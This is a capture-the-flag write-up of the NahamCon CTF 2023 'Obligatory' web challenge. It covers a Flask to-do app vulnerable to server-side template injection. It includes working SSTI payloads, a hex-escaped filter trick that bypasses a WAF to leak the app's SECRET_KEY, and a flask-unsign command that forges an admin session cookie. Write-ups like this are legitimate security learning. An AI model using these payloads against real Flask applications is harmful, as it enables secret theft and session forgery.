






# Obligatory [Web]

NahamCon CTF 2023

*Every Capture the Flag competition has to have an obligatory to-do list application, right???*

## Writeup
Sign Up and Login on the Web Application. The website is a Todo-List tracker



After creating a task, a message `Task created` is printed. The message can also be controlled via the `success` GET parameter

```
http://challenge.nahamcon.com:PORT/?success=Task%20created
```

The parameter is Vulnerable to **SSTI**



```
http://challenge.nahamcon.com:31129/?success={{7*7}}
```

I tried to leak Config items with `{{config.items()}}`, but is blocked by WAF



Bypassed with `{{self|attr("\x5f\x5fdict\x5f\x5f")}}`



Now that we got the SECRET_KEY, we can forge our own Flask Session and login as Admin

```bash
flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"
```



**Flag obtained after using the newly signed auth-token**


